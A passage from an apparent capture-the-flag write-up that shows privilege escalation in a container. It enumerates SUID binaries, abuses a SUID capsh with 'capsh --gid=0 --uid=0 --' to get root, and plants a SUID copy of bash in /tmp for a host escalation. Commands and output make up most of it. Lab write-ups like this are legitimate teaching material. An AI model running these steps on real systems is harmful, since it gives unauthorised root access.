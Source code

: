 ```bash
find / -perm -4000 -ls 2>/dev/null
```

```bash
www-data@50bca5e748b0:/tmp$ find / -perm -4000 -ls 2>/dev/null
    42364     88 -rwsr-xr-x   1 root     root        88304 Feb  7  2020 /usr/bin/gpasswd
    42417     64 -rwsr-xr-x   1 root     root        63960 Feb  7  2020 /usr/bin/passwd
    42317     52 -rwsr-xr-x   1 root     root        52880 Feb  7  2020 /usr/bin/chsh
    42314     60 -rwsr-xr-x   1 root     root        58416 Feb  7  2020 /usr/bin/chfn
    42407     44 -rwsr-xr-x   1 root     root        44632 Feb  7  2020 /usr/bin/newgrp
     5431     32 -rwsr-xr-x   1 root     root        30872 Oct 14  2020 /sbin/capsh
    41798     56 -rwsr-xr-x   1 root     root        55528 Jan 20  2022 /bin/mount
    41819     36 -rwsr-xr-x   1 root     root        35040 Jan 20  2022 /bin/umount
    41813     72 -rwsr-xr-x   1 root     root        71912 Jan 20  2022 /bin/su
```

We see that it has a quite peculiar `SUID` called `/sbin/capsh`, so we check if it can be exploited. To do so, we visit the [GTFOBins](https://gtfobins.github.io/#capsh) website, which is excellent for explaining all types of exploits. We search for `capsh`, and it appears, so we go to the `SUID` section to see how to exploit it.

![Texto alternativo](/assets/monitorstwo/Screenshot%202025-02-27%20212952.jpg)

We execute the second command since we are not `root` and `capsh` is already installed.

```bash
capsh --gid=0 --uid=0 --
```

```bash
www-data@50bca5e748b0:/tmp$ capsh --gid=0 --uid=0 --
root@50bca5e748b0:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

And we become `root` in the container. Now, to escalate privileges on the host, we copy `bash` and set it to `SetUID`.

```bash
root@50bca5e748b0:/tmp# cp /bin/bash /tmp/DLL
root@50bca5e748b0:/var/www# chmod 4777 /tmp/DLL 
```
